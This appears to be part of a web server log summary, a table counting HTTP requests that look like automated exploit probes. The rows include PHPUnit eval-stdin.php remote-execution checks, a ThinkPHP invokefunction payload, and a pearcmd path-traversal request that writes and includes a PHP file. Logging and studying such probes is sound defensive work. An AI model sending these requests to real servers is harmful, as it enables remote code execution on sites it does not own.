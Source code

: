 | 136 |                     2 | GET /blog/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                  |
| 137 |                     2 | GET /apps/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                  |
| 138 |                     2 | GET /app/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                   |
| 139 |                     2 | GET /backup/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                |
| 140 |                     2 | GET /index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                             |
| 141 |                     2 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                      |
| 142 |                     2 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                            |
| 143 |                     2 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                                        |
| 144 |                     2 | POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                      |
| 145 |                     2 | GET /admin/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                 |
| 146 |                     2 | GET /workspace/drupal/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                      |
| 147 |                     2 | GET /crm/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                   |
| 148 |                     2 | GET /cms/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                   |
| 149 |                     2 | GET /demo/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                  |
| 150 |                     2 | GET /libs/js/iframe.js HTTP/1.0                                                                                                                                                                                                                                                                                                                                        |